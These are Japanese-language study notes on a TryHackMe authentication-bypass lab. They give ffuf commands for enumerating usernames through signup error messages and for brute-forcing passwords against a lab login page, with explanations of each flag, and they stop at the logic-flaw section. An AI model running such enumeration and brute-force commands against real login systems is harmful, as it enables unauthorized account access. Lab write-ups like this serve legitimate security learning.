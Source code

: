 # AuthenticationBypass

'https://tryhackme.com/room/authenticationbypass'

## Task2 Username Enumeration

websiteのエラーメッセージはusernameのリストを作成するのに重要な情報となる。

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.41/customers/signup -mr "username already exists"
```

-w : wordlist利用  
-X: request method指定(defaultはGET)  
-d: 送るデータを特定するオプション  
※変数の名前はhtmlのinspectionで確認できる  
-H: adding additional Header to the request  
→これも開発者モードのnetworkからリクエストヘッダーを確認すること  
-u: specific the URL we are making the request to  
-mr: text on the page we are looking for to validate  


- ffufのダウンロード
'https://github.com/ffuf/ffuf'

補足：  
progressの表示が出てめっちゃ出力結果見づらいけど、テキストに標準出力してあげると結果だけ見えて見やすい！！

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.41/customers/signup -mr "username already exists"　> valid_username.txt

cat valid_username.txt
```


## Task3 Brute Force

task2で特定したusernameを利用してBrute force 攻撃を仕掛ける。  

```bash
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.41/customers/login -fc 200
```

w1 :usernameのリストを指定
w2 :passwordのリストを指定
-fc :HTTP status が 200以外のものをフィルターする。

※valid_username.txtは、名前だけのリストに加工しないといけないので注意

## Task4 Logic Flaw

